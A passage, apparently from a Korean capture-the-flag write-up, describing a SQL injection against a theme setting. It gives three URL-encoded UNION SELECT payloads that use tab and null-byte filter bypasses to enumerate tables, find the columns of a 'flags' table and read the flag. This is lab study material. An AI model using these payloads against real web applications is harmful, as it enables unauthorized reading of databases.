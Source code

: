 하지만 해당 함수 역시 "Invalid theme settings" 오류로 실행되지 않았고,
그 결과 DB 버전(@@version) 및 설정값(@@secure_file_priv) 등에서 Error-Based 취약점 가능성을 탐색하게 되었다.

그러던 도중, 패치로 Union Select가 허용되기 시작했다는 것을 확인하였고,
이를 계기로 전체 테이블 및 컬럼 정보를 Union Select 기반으로 다시 시도 

### 테이블명 
```
dark'%09Union%09Select%09table_name,1%09From%09information_schema.tables%09Where%09table_schema=database()%09Limit%094,1%3b%00
```
1. flags
2. themes
3. users

### 컬럼명
```
user_theme=dark'%09Union%09Select%09column_name,1%09From%09information_schema.columns%09Where%09table_name%09like%09'%25flag%25'%09Limit%091,1%3b%00
```
1. flag_id
2. flag
3. description
4. created_at

### 플래그 확인 
```
dark'%09Union%09Select%09flag,1%09From%09flags%09Limit%091,1%3b%00
```

<img src="https://github.com/user-attachments/assets/6c5adfd3-e1fc-4fa8-8508-e325c4a7e0e8" style="width: 100%;" />
